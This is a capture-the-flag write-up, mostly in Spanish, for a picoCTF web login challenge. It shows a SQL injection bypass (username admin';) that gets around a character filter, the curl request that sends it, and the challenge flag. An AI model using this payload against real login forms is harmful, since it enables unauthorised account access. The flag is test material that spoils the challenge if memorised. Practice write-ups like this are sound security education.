 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Solución
En este nivel la solución fue bastante similar, ahora lo que cambió fue que el sitio web ya validaba los caracteres de =, or y 1, pero no que nosotros pudieramos hacer un select simplemente al usuario admin, ingresando admin';
De tal manera al ser concatenado en la sentencia SQL, el resutlado iba a ser:
```sql
SELECT * FROM users WHERE name='admin';'
```

Ignorando lo que está después del ; y permitiéndonos el acceso a el sitio

```powershell
C:\Users\Miguel García>curl -s https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&debug=1"
<pre>username: admin';
password:
SQL query: SELECT * FROM users WHERE name='admin';' AND password=''
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>
C:\Users\Miguel García>

```

## Bandera
picoCTF{m0R3_SQL_plz_fa983901}

## Notas

## Referencias